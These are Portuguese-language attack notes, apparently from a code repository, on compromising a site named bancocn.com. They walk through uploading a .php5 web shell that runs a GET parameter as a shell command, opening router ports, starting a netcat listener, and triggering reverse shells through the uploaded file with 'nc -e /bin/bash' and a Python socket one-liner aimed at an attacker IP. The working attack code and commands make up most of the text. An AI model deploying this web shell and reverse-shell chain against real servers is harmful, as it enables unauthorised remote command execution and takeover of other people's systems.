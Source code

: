 > Foram testadas varias formas para tentar subir um ficheiro executavel. Passou pelo filtro um fichero .php5, que é executavel...

- Criar um ficheiro php5
```php
<?php
    echo shell_exec($_GET['comando']);
?>
```

- Shell Reversa
1. Saber o ip local
2. Abrir as portas do router
    - Saber qual é o touter (Gateway). Se estiver o sistema virtualizado deve-se colocar a placa de rede em modo Bridged.
    ```sh
    route -n
    ```
    - Criar um "Virtual Servers" foi usada a porta 666
    - Testar se o serviço esta _OK_

        -  ``` canyouseeme.org ```
    
        ```sh
        # iniciar o serviço
        nc -lvp 666
        ```
    - subir o arquivo cmd.php5
        - Testar se esta a conetar
        ```sh
            # No terminal - iniciar a escuta
            nc -lvp 666
        ```

        ``` bancocn.com/admin/uploads/cmd.php5?comando=nc 191.54.160.237 666 (este ip é um exemplo e porta também)```

        - para ter acesso a bash do servidor - não vai funcionar pois os servidor por norma não instalam a opção -e por motivos de segurança
        ``` bancocn.com/admin/uploads/cmd.php5?comando=nc -e /bin/bash 191.54.160.237 666 ``` 

        - Pesquisar por __reverse shell__: 
        ```http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet```

            - Usou-se o codigo em python - mudar o ip e a porta
            ```py
            python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("191.54.160.237", 666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
            ```
        - Voltar iniciar o serviço de escuta:
        ```sh
            # No terminal - iniciar a escuta
            nc -lvp 666
        ```
        - No browser:
        ```bancocn.com/admin/uploads/cmd.php5?comando=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("191.54.160.237", 666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```